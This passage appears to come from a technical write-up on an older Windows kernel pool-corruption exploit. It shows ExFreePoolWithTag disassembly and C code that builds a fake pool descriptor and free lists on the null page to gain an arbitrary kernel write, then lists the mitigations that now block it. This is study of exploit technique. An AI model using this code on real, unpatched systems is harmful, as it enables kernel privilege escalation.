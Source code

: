 ```text
ExFreePoolWithTag(x,x)+5C8  loc_518064:
ExFreePoolWithTag(x,x)+5C8  mov     eax, [esp+58h+watchMe]
ExFreePoolWithTag(x,x)+5CC  mov     edx, _PoolVector[eax*4]
ExFreePoolWithTag(x,x)+5D3  mov     [esp+58h+var_48], edx
ExFreePoolWithTag(x,x)+5D7  mov     edx, [esp+58h+var_40]
ExFreePoolWithTag(x,x)+5DB  and     edx, 20h
ExFreePoolWithTag(x,x)+5DE  mov     [esp+58h+var_20], edx
ExFreePoolWithTag(x,x)+5E2  jz      short loc_5180B6


ExFreePoolWithTag(x,x)+5E8  loc_518084:
ExFreePoolWithTag(x,x)+5E8  cmp     _ExpNumberOfNonPagedPools, 1
ExFreePoolWithTag(x,x)+5EF  jbe     short loc_5180CB

ExFreePoolWithTag(x,x)+5F1  movzx   eax, word ptr [edi]
ExFreePoolWithTag(x,x)+5F4  shr     eax, 9
ExFreePoolWithTag(x,x)+5F7  mov     eax, _ExpNonPagedPoolDescriptor[eax*4]
ExFreePoolWithTag(x,x)+5FE  jmp     short loc_5180C7
```

Therefore, you have to make the pool manager believe that the chunk is located in paged memory. 

##Crafting a fake pool descriptor 

As we want a fake pool descriptor at null address. We just allocate this page and put a fake deferred free list and a fake ListHeads.

When freeing a chunk, if the deferred freelist contains at least 0x20 entries, *ExFreePoolWithTag* is going to actually free those chunks and put them on the appropriate entries of the *ListHeads*. 

```text

*(PCHAR*)0x100 = (PCHAR)0x1208; 
*(PCHAR*)0x104 = (PCHAR)0x20;
for (i = 0x140; i < 0x1140; i += 8) {
    *(PCHAR*)i = (PCHAR)WriteAddress-4;
}
*(PINT)0x1200 = (INT)0x060c0a00;
*(PINT)0x1204 = (INT)0x6f6f6f6f;
*(PCHAR*)0x1208 = (PCHAR)0x0;
*(PINT)0x1260 = (INT)0x060c0a0c;
*(PINT)0x1264 = (INT)0x6f6f6f6f;
```

##Notes

It is interesting to note that this attack would not work with modern mitigations. Here are a few reasons : 

  * Validation of the *PoolIndex* field
  * Prevention of the null page allocation
  * *NonPagedPoolNX* has been introduced with Windows 8 and should be used instead of the *NonPagedPool* type. 
  * SMAP would prevent access to userland data
  * SMEP would prevent execution of userland code 
